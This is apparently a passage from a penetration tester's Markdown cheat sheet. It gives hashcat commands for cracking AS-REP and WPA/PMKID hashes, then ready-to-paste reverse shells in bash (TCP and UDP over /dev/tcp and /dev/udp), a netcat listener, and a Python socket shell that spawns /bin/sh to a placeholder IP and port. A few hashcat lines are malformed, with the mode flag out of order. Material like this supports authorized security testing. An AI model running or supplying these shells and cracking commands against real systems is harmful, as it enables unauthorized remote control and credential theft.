 ```bash
hashcat -m 18200 asrep-hashes.txt -r rule wordlist -o Cracked.txt -O
```

```bash
hashcat -m -w 3 18200 asrep-hashes.txt -r rule wordlist -o Cracked.txt -O
```

### WPA/PMKID

```bash
hashcat -m 22000 wpa-hashes.txt wordlist -o Cracked.txt -O
```

```bash
hashcat -m 22000 wpa-hashes.txt -r rule wordlist -o Cracked.txt -O
```

```bash
hashcat -m -w 3 22000 wpa-hashes.txt -r rule wordlist -o Cracked.txt -O
```

## Reverse Shells

MANY more on [PayloadAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/) - These are my more commonly used ones

### Bash

#### TCP <a href="#bash-tcp" id="bash-tcp"></a>

```
bash -i >& /dev/tcp/IP/port 0>&1

0<&196;exec 196<>/dev/tcp/IP/port; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/IP/port 0<&1 2>&1
```

#### UDP <a href="#bash-udp" id="bash-udp"></a>

```
Victim:
sh -i >& /dev/udp/IP/port 0>&1

Listener:
nc -u -lvp port
```

### Python

#### IPv4

```
export RHOST="IP";export RPORT=port;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
